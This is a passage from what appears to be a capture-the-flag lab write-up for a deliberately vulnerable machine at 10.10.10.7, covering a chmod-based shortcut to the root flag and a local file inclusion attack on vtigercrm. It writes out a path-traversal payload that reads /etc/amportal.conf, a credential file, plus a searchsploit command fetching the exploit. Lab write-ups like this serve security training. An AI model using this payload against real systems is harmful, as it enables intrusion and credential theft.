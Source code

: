 Oh boy, so many security misconfigurations! For this solution, let’s exploit the chmod command.

Run the following command to give everyone rwx permissions on the /root directory.

```text
sudo chmod o+rwx /root
```

Now we can view the root.txt flag.

![](../images/max/519/1*8_RP2_tUaZYeEUtTbHrXyA.png)

## Solution \#2 <a id="e66c"></a>

This solution involves attacking port 443.

First, transfer the LFI exploit to the attack machine.

```text
searchsploit -m 37637.pl
```

Looking at the exploit, it seems that the LFI vulnerability is in the **current\_language** parameter. Let’s see if our application is vulnerable to it.

```text
https://10.10.10.7//vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We get back the following page.

![](../images/max/1304/1*wkY_cdz3zNoiGsD2AU4w5Q.png)

